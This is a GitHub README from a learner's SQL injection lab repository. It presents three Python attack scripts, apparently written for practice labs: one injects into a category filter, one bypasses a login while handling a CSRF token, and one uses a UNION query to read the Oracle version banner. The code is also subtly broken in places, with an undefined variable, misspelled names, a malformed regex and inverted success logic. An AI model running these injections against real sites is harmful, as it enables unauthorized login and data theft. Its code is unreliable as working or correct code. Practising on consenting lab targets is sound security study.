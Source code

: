 # SQL Injection Labs Repository

This repository contains Python scripts for various SQL injection labs I am working on while learning SQL injection techniques using Burp Suite. Each lab has its own script, and this README will be updated as I progress through the labs.

# Labs Overview

## Lab 1: Basic SQL Injection

- **Description**: This lab demonstrates a basic SQL injection attack by exploiting a vulnerable URL parameter.
- **Script**: `sql_injection1.py`
- **Status**: Completed

```bash

python3 script.py <url> <payload>

import requests
import sys 
import urllib

proxies={'http':"http://127.0.0.1:8080",'https':"https://127.0.0.1:8080"}

def exploit_sql(url,payload):
    uri="/filter?category="
    r=requests.get(url+uri+payload,verify=False,proxies=proxies)
    if "cat grin" in r.text:
        return True
    else:
        return False

if __name__ == "__main__":
    try:
        url=sys.argv[1].strip() 
        payload=sys.argv[2].strip()
    except IndexError:
        print("usage is not correct ")
    if exploit_sql(url,payload):
        print(" the sql injection is complete")
    else:
        print("there is error in the sql injection") 
```

## Lab 2: SQL Injection with CSRF Token

- **Description**: This lab demonstrates SQL injection while handling CSRF tokens. It retrieves the CSRF token from the webpage and uses it to attempt a login with an SQL payload.
- **Script**: `sql_injection2.py`
- **Status**: Completed
```bash

python3 python3 labX_script.py <url> <sql_payload>

import sys
import requests
import urllib3
from bs4 import BeautifulSoup 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies= {"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def get_csrf_token(s,url):
    res = s.get(url,verify=False,proxies=proxies)
    soup = BeautifulSoup(res.text,'html.parser')
    csrf=soup.find("input")["value"]
    return csrf

def exploit_sqli(s,url,payload):
    csrf=get_csrf_token(s,url)
    data={"csrf":csrf,"username":payload,"password":"12345678"}
    r=s.post(url,data=data,verify=False,proxies=proxies)
    ras=r.text
    if "log out" in ras:
        return True
    else:
        return False


if __name__== "__main__":
    try:
        url=sys.argv[1].strip()
        sqli_payload=sys.argv[2].strip()
    except IndexError:
        print("use the below bash command on your terminal")
        print("use python3 file.py <url> <sql payload>")
    s=requests.Session()
    if exploit_sqli(s,url,payload):
        print("the sql injetion is successful we have logged in")
    else:
        print("the sql injection is not successful we are not logged in")

```


#### Requirements

- pip install requests beautifulsoup4 urllib3

## Lab 3: SQL Injection with UNION TO IDENTIFY DATA BASE VERSION

- **Description**: This lab demonstrates SQL injection attack against a vulnerable web application to retrieve the version of the Oracle database USING SQL UNION operator.
- **Script**: `sql_injection3.py`
- **Status**: Completed

```bash
import sys
import urllib3
import requests
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.INsecureRequestWarning)

proxies={"http":"http://127.0.0.1:8080","https":"https://127.0.0.1:8080"}

def exploit_sqli_version(url):
    path="/filter?catagory=Gifts"
    sql_payload= "UNION select banner,NULL from v$version--"
    r=requests.get(url+path+sql_payload,verify=False,proxies=proxies)
    res=r.text
    if "oracle database" in res:
        print("the sql injection is succesfull")
        soup=BeautifulSoup(r.text,"html.parser")
        version=soup.find(text=re.compile('^.oracle/sDatabase'))
        print(f"the oracle data base version is {version}")


if __name__=="__main__":
    try:
        url=sys.argv[1].strip()
    except: 
        print("input the url")
        sys.exit()
    if exploit_sqli_version(url):
        print("unable to dump the databsse")
```

# Disclaimer

- These scripts are intended for educational purposes only. Use them responsibly and only on applications you own or have explicit permission to test.